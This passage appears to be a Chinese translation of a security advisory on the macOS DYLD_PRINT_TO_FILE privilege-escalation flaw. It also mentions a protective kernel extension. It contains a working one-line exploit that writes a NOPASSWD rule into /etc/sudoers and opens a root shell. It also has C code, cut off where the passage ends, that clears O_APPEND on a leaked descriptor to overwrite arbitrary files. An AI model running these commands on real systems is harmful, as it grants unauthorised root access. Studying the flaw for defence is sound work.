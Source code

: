 ```
$ ls -la /
total 317
...
drwxr-xr-x@  2 root  wheel      68 Sep  9  2014 Network
drwxr-xr-x+  4 root  wheel     136 Jul 15 16:03 System
drwxr-xr-x   6 root  admin     204 Jul 17 17:39 Users
drwxrwxrwt@  4 root  admin     136 Jul 21 07:28 Volumes
drwxr-xr-x@ 39 root  wheel    1326 Jul 20 19:26 bin
drwxrwxr-t@  2 root  admin      68 Sep  9  2014 cores
dr-xr-xr-x   3 root  wheel    4156 Jul 20 20:26 dev
lrwxr-xr-x@  1 root  wheel      11 Jul 15 15:55 etc -> private/etc
dr-xr-xr-x   2 root  wheel       1 Jul 21 07:34 home
-rw-r--r--@  1 root  wheel     313 Apr 28 21:11 installer.failurerequests
dr-xr-xr-x   2 root  wheel       1 Jul 21 07:34 net
drwxr-xr-x@  6 root  wheel     204 Jul 15 16:08 private
drwxr-xr-x@ 61 root  wheel    2074 Jul 20 19:26 sbin
-rw-r--r--   1 root  wheel       0 Jul 21 17:22 this_system_is_vulnerable <----
lrwxr-xr-x@  1 root  wheel      11 Jul 15 15:56 tmp -> private/tmp

```

如果你可以看到该文件，那么该程序存在漏洞。

一句话测试：

```
echo python -c '"import os;os.write(3,\"ALL ALL=(ALL) NOPASSWD: ALL\")"'|DYLD_PRINT_TO_FILE=/etc/sudoers newgrp;sudo su

```

0x03 保护
=====

在进行对该问题的利用前，因为Apple将花费数月来对该问题进行回顾，我们已发布了一个内核扩展，通过阻止所有SUID为root的二进制程序识别的环境变量来进行保护。此外它添加了缓解来解决在文件描述符上绕过的O_APPEND的限制。

你可以在Github中得到源码：https://github.com/sektioneins/SUIDGuard

Exploitation 1
--------------

因为其将已打开的文件描述符泄漏给我们执行的二进制程序的子进程。我们可以使用一些简短的shell命令行再次进行示范。 正如你可以看到的文件描述符3（与被打开的日志文件相关）被泄露进已弹出的shell并且可以直接被写入。不具有特权的用户已经将数据追加到了root用户拥有的文件。在文件系统上这可以是任意文件，这使权限提升变得相当容易。 笔记：在该范例中我们已使用了su（已经输入我们自己的密码），但是我们可以之前使用过的crontab技巧并将用于相同用途的恶意shell脚本放入EDITOR环境变量中。

Exploitation 2
--------------

到目前为止，我已示范将任意数据追加到文件系统的任意文件。确实挺糟糕的，但是到目前为止我们被O_APPEND 标志限制了。该标志阻碍我们覆写任意一个我们钟情的文件。这是存在的比所有人所相信还要小的问题，因为`O_APPEND`标志在文件描述符上可被进行`fcntl(F_SETFL)`系统调用的人关闭。如下c代码展示了如何将数据写入到任意文件。

```
int main(int argc, char **argv)
{
        int fd;
        char buffer[1024];

        /* disable O_APPEND */
        fcntl(3, F_SETFL, 0);
        lseek(3, 0, SEEK_SET);

        strcpy(buffer, "anything - anything - anything");

        write(3, &buffer, strlen(buffer));

```
